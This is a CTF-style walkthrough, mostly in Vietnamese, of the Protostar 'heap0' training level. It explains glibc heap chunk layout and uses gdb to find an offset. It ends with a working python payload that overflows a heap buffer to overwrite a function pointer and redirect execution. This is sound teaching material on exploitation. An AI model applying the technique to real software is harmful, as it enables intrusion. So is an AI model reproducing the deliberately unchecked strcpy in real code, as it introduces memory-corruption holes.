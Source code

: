 # HEAP ZERO

## About

This level introduces heap overflows and how they can influence code flow.

This level is at /opt/protostar/bin/heap0

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Solutions

`HEAP ZERO` cho chúng ta thấy cách mà việc heap overflows gây ảnh hưởng tới các biến được cấp phát động và từ đó dẫn tới thay đổi luồng thực thi code.

Bộ cấp phát bộ nhớ được sử dụng trong Protostar là `glibc's malloc`, dựa trên `Doug Lea's malloc` (hay gọi tắt là `dlmalloc`). Bố cục của một biến khi được cấp phát động thông qua con trỏ.

```
     low memory adddress
  | |====================|   <---- current chunk  
  | |     prev_size      |  |
  | |====================|  | HEAP
  | |        size        |  | grow
  H |====================|  | direction
  E |      data user     |  |
  A |====================|  |
  P |''''''''''''''''''''|  |
  | |====================|  | <---- next chunk
  | |      prev_size     |  |
  | |====================|  |
  | |       size         |  |
  | |....................|  v
      high memory address
```

Nhìn vào đoạn mã của chương trình sau

```
...
struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

int main(){
...
struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;
...
}
```

Ta thấy được khai báo hai con trỏ theo kiểu dữ liệu được định nghĩa với 1 kiểu dữ liệu `data` gồm mảng ký tự `name[64]` và một kiểu `fp` gồm con trỏ hàm. Hai kiểu dữ liệu được cấp phát động, `f->fp = nowinner` được phân bổ như sau trong heap memory.

```
Khi chạy chương trình: $./heap0 aaaa
data is at 0x804a008, fp is at 0x804a050
level has not been passed

...
(gdb) x/100wx 0x804a000         <-- địa chỉ bắt đầu của heap
0x804a000:      0x00000000      0x00000049      0x00000000      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
...

(gdb) p nowinner
$1 = {void (void)} 0x8048478 <nowinner>
```

Tiếp theo đó là strcpy(d->name, argv[1]); sẽ gây ra buffer overflow trên `d->name` và đủ lớn sẽ ghi đè con trỏ hàm `f->fp`. Độ dài đó là `0x804a050 - 0x804a008 = 0x48` và sau đó là địa chỉ hàm `winner()`.

```
(gdb) p winner
$1 = {void (void)} 0x8048464 <winner>
```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# ./heap0 $(python -c 'print "A" * 0x48 + "\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

## Documents

<https://www.blackhat.com/presentations/bh-usa-07/Ferguson/Whitepaper/bh-usa-07-ferguson-WP.pdf>

<https://sourceware.org/glibc/wiki/MallocInternals>



